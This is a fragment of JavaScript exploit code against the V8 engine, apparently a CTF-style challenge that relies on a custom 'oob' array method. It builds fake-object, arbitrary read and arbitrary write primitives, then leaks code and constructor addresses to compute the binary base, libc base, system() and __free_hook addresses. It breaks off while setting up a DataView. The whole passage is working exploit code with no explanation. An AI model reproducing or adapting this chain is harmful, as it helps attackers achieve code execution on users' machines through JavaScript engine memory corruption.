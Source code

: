 ```javascript
}

function fakeObject(addr) // float addr -> obj
{
	var obj_addr = i2f(addr + 1n);
	float_array[0] = obj_addr; 
	float_array.oob(obj_array_map);

	var fake_object = float_array[0]; 
	float_array.oob(float_array_map);
	return fake_object;
}

var fake_array = [
	float_array_map,
	i2f(0n),
	i2f(0x41414141n),
	i2f(0x1000000000n),
	1.1,
	2.2
];

%DebugPrint(fake_array); // fake array map address
var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);


function read64(addr)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	var leak_info = f2i(fake_object[0]);
	//console.log("[*] leak addr: 0x" + hex(addr) + " data: 0x" + hex(leak_info));
	return leak_info;
}

function write64(addr, data)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	fake_object[0] = i2f(data);
	//console.log("[*] write data to addr: 0x" + hex(addr) + " data: 0x" + hex(data));
}

var a = [1.1, 2.2];

var leak_code_addr = read64(addressOf(a.constructor) + 0x30n);
console.log("[*] leak code addr : 0x" + hex(leak_code_addr));
var leak_constructor_addr = read64(leak_code_addr + 0x41n);
console.log("[*] leak constructor addr : 0x" + hex(leak_constructor_addr));

var elf_base = leak_constructor_addr - 0xFC8780
console.log("[*] elf_base: 0x" + hex(elf_base));
var free_got_addr = elf_base + 0x12AA8B8n;
var free_addr = read64(free_got_addr);
var libc_base = free_addr - 0x9d850n;
console.log("[*] libc_base: 0x" + hex(libc_base));
var system_addr = libc_base + 0x55410n;
console.log("[*] system_addr: 0x" + hex(system_addr));
var free_hook_addr = libc_base + 0x1eeb28n;
console.log("[*] free_hook_addr: 0x" + hex(free_hook_addr));

var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
```